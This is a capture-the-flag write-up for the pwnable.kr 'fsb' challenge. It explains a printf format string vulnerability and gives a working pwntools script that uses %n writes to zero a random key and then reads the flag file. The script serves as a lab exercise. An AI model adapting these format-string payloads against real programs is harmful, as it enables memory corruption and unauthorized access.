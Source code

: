 # Rookiss - fsb

> Isn't FSB almost obsolete in computer security?
>
> Anyway, have fun with it :)

I started by exploring the [disassembled code](https://imgur.com/a/gO98NMu) using IDA. The code contains a vulnerable call to `printf`. OWASP has a nice overview [page](https://owasp.org/www-community/attacks/Format_string_attack) about string format vulnerabilities. I can submit 4 strings to make my exploit.

After the `printf`-calls, the program compares a `key` input to a random number stored in `buf`. The address of `buf` is `0x0804A060` (= decimal 134520928), which was easy to figure out [using IDA](https://i.imgur.com/gatDor7.png) too. It's 8 bytes long. Then using GDB, I figured out there is a pointer to `pargv` at offset `0x14` from the string. I'll try to make both `0x0804A060` and `0x0804A064` equal to zero, to make the key equal to zero. Luckily, we can submit four strings, so I think I can:

1. Make that `pargv` pointer equal to `0x0804A060`.
2. Use `%n` to make whatever the 14th pointer points at equal to zero.
3. Make that `pargv` pointer equal to `0x0804A064`.
4. Use `%n` to make whatever the 14th pointer points at equal to zero.

Putting this all together, I wrote the following code with the help of pwntools. It works when executed on the pwnable machine.

```py
from pwn import *
conn = process("/home/fsb/fsb")

conn.recvuntil("strings(1)\n")
conn.sendline("%134520928x%14$n")

conn.recvuntil("strings(2)\n")
conn.sendline("%20$n")

conn.recvuntil("strings(3)\n")
conn.sendline("%134520932x%14$n")

conn.recvuntil("strings(4)\n")
conn.sendline("%20$n")

conn.recvuntil("key :")
conn.sendline("0")

conn.recvuntil("Congratz!")
conn.sendline("cat /home/fsb/flag")

print("Received flag:")
print(conn.recvline())
print(conn.recvline())
conn.close()
```

Do note there's a timer in the program, which makes the exploit take a few seconds. Don't exit the program immediately if you think it's blocking :)

